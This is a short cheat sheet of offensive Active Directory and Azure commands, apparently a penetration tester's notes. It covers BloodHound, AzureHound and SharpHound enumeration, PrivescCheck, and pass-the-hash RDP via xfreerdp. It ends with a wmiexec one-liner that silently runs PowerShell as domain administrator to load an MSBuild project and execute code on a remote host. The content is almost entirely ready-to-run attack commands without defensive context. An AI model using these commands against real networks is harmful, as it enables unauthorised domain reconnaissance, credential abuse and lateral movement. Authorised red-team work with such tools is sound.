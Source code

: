 ## Bloodhound
```
neo4j console &
bloodhound &
```
## AzureHound
source: https://posts.specterops.io/introducing-bloodhound-4-0-the-azure-update-9b2b26c5e350
```
install-module -name Az -allowclobber
install-module -name AzureADPreview -allowclobber
connect-azuread
connect-azaccount
❯ azurehound.exe list -u "$USERNAME" -p "$PASSWORD" -t "$TENANT" -o "mytenant.json"
```
## Bloodhound Ingestors (ps1)
Source : https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1
```
Import-Module .\SharpHound.ps1
Invoke-BloodHound -collectiondmethods all
# Bloodhound Custom queries
https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/
```
Extract users' samAccountName from BloodHound's users file
```
jq -r ".data[].Properties.samaccountname| select( . != null )" *_users.json 2>/dev/null > users.txt
```
## Privesc Check
Source: https://github.com/itm4n/PrivescCheck
```
. .\PrivescCheck.ps1
Invoke-PrivescCheck -Report PrivescCheck -Format HTML -Extended
```
## XFreeRDP
```
xfreerdp /v:<ip> /u:<user> /d:<domain> /dynamic-resolution /pth:NTLM
```

## Smbclient
```
smbclient //ip/share$ -U user -W domain
```

## WMIExec command example with chars escape for zsh
```
wmiexec.py domain.local/administrator@10.10.0.12 -dc-ip 10.10.0.10 -nooutput -silentcommand 'powershell.exe -Command "$path = \"C:\\Updater.db\"; [Reflection.Assembly]::LoadWithPartialName(\"Microsoft.Build\"); $eval = New-Object Microsoft.Build.Evaluation.Project($path); $eval.Build()"'
```
